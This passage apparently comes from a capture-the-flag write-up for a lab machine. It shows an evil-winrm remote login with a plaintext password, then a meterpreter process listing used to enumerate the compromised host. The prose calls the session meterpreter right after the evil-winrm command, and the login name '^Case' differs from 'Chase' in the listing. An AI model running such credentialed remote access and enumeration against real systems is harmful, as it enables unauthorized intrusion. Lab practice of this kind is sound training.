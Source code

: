    :::text
    evil-winrm  -i 10.10.10.149 -u ^Case -p 'Q4)sJu\Y8qz*A3?d'

The meterpreter allow us to easy enumerate the box. Let us take a look at the
running process:

    :::text
    meterpreter > ps

    Process List
    ============

    PID   PPID  Name                     Arch  Session  User               Path
    ---   ----  ----                     ----  -------  ----               ----
    0     0     [System Process]                                           
    4     0     System                                                     
    104   4     Registry                                                   
    268   612   svchost.exe                                                
    300   4     smss.exe                                                   
    340   612   svchost.exe                                                
    404   396   csrss.exe                                                  
    408   612   svchost.exe                                                
    480   396   wininit.exe                                                
    488   472   csrss.exe                                                  
    544   472   winlogon.exe                                               
    612   480   services.exe                                               
    632   480   lsass.exe                                                  
    652   792   dllhost.exe              x64   1        SUPPORTDESK\Chase  C:\Windows\System32\dllhost.exe
    684   612   svchost.exe                                                
    764   612   svchost.exe                                                
    784   612   svchost.exe                                                
    792   612   svchost.exe                                                
    812   544   fontdrvhost.exe                                            
    820   480   fontdrvhost.exe                                            
    904   612   svchost.exe                                                
    956   612   svchost.exe                                                
    984   612   svchost.exe                                                
    1020  544   dwm.exe                                                    
    1052  612   svchost.exe                                                
    1128  612   svchost.exe                                                
    1164  612   svchost.exe                                                
    1184  612   svchost.exe                                                
    1248  612   svchost.exe                                                
    1300  612   svchost.exe                                                
    1348  612   svchost.exe                                                
    1356  612   svchost.exe                                                
    1364  612   svchost.exe                                                
    1376  612   svchost.exe                                                
    1468  612   svchost.exe                                                
    1512  612   svchost.exe                                                
    1580  612   svchost.exe                                                
    1624  612   svchost.exe                                                
    1632  612   svchost.exe                                                
    1720  612   svchost.exe                                                
    1780  1468  taskhostw.exe                                              
    1820  612   svchost.exe                                                
    1896  612   svchost.exe                                                
    1968  612   svchost.exe                                                
    1992  612   svchost.exe                                                
    2216  612   svchost.exe                                                
    2564  612   spoolsv.exe                                                
    2624  612   svchost.exe                                                
    2632  612   svchost.exe                                                
    2640  612   svchost.exe                                                
